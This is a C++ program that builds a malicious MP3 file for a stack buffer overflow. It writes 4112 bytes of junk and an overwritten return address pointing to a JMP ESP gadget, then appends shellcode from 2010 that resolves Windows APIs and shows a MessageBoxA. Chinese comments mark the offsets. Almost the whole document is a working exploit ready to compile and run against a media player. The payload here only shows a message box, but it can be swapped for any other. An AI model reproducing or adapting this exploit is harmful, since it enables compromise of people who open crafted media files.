 ``` {.brush:cpp;}
#include 
#include 
#include 
using namespace std;
/*
Title: Allwin MessageBoxA Shellcode
Date: 2010-06-11
Author: RubberDuck
Web: http://bflow.security-portal.cz
Tested on: Win 2k, Win 2003, Win XP Home SP2/SP3 CZ/ENG (32), Win Vista (32)/(64), Win 7 (32)/(64), Win 2k8 (32)
Thanks to: kernelhunter, Lodus, Vrtule, Mato, cm3l1k1, eat, st1gd3r and others
*/
char code[] =
"\xFC\x33\xD2\xB2\x30\x64\xFF\x32\x5A\x8B"
"\x52\x0C\x8B\x52\x14\x8B\x72\x28\x33\xC9"
"\xB1\x18\x33\xFF\x33\xC0\xAC\x3C\x61\x7C"
"\x02\x2C\x20\xC1\xCF\x0D\x03\xF8\xE2\xF0"
"\x81\xFF\x5B\xBC\x4A\x6A\x8B\x5A\x10\x8B"
"\x12\x75\xDA\x8B\x53\x3C\x03\xD3\xFF\x72"
"\x34\x8B\x52\x78\x03\xD3\x8B\x72\x20\x03"
"\xF3\x33\xC9\x41\xAD\x03\xC3\x81\x38\x47"
"\x65\x74\x50\x75\xF4\x81\x78\x04\x72\x6F"
"\x63\x41\x75\xEB\x81\x78\x08\x64\x64\x72"
"\x65\x75\xE2\x49\x8B\x72\x24\x03\xF3\x66"
"\x8B\x0C\x4E\x8B\x72\x1C\x03\xF3\x8B\x14"
"\x8E\x03\xD3\x52\x33\xFF\x57\x68\x61\x72"
"\x79\x41\x68\x4C\x69\x62\x72\x68\x4C\x6F"
"\x61\x64\x54\x53\xFF\xD2\x68\x33\x32\x01"
"\x01\x66\x89\x7C\x24\x02\x68\x75\x73\x65"
"\x72\x54\xFF\xD0\x68\x6F\x78\x41\x01\x8B"
"\xDF\x88\x5C\x24\x03\x68\x61\x67\x65\x42"
"\x68\x4D\x65\x73\x73\x54\x50\xFF\x54\x24"
"\x2C\x57\x68\x4F\x5F\x6F\x21\x8B\xDC\x57"
"\x53\x53\x57\xFF\xD0\x68\x65\x73\x73\x01"
"\x8B\xDF\x88\x5C\x24\x03\x68\x50\x72\x6F"
"\x63\x68\x45\x78\x69\x74\x54\xFF\x74\x24"
"\x40\xFF\x54\x24\x40\x57\xFF\xD0";

int main(int argc, char **argv) {
    string filename("ADR的歌聲.mp3");
    string junk(4112, 'A');
    string eip("\xDF\xBD\x49\x00"); // 0x0049BDDF - Jump ESP (4112 ~ 4115) 
    string padding("ADR!");         // offset 4116 ~ 4119 (四個字可隨便塞) 
    string shellcode(code);         // offset 4120 ~ ... 把shellcode塞到stack上 
    ofstream fout(filename.c_str(), ios::binary);
    fout << junk;
    fout.write(eip.c_str(), 4);
    fout << padding  << shellcode;
    cout << "順利產生檔案 " << filename << "\n";
}
```
